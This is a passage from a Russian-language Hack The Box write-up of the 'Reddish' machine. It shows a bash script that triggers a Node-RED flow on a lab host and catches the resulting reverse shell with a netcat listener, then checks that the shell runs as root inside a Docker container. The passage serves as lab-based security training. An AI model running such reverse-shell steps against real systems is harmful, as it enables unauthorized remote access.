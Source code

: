 ```bash
#!/usr/bin/env bash

(sleep 0.5; curl -s -X POST http://10.10.10.94:1880/red/a237ac201a5e6c6aa198d974da3705b8/inject/7635e880.e6be48 >/dev/null &)
rlwrap nc -lvnp 8888
```

Адрес URL, который я передаю `curl` — тот адрес, где расположился объект Inject данного потока (то есть кнопка *Go!* на рисунке выше). Также я использую [rlwrap](https://github.com/hanslub42/rlwrap), чтобы не сойти с ума от невозможности использовать стрелки влево-вправо для перемещения по вводимой строке и вверх-вниз для перемещения по истории команд.

У нас есть шелл, поэтому пора разобраться, куда мы попали.

# Докер. Контейнер I: "nodered"

Уже с первых секунд пребывания на сервере становится очевидно, что мы внутри докера, так как наш шелл вернулся от имени суперпользователя root.

Это же предположение подтверждает скрипт lse.sh, заброшенный на машину в прошлом параграфе.

![nodered-lse-out.png](/assets/images/htb/machines/reddish/nodered-lse-out.png)
{:.center-image}

Ну а если ты и ему не веришь, можно убедиться в этом лично: в корне файловой системы (далее «ФС») существует директория `.dockerenv`.

```
root@nodered:/node-red# ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 May  4  2018 /.dockerenv
```

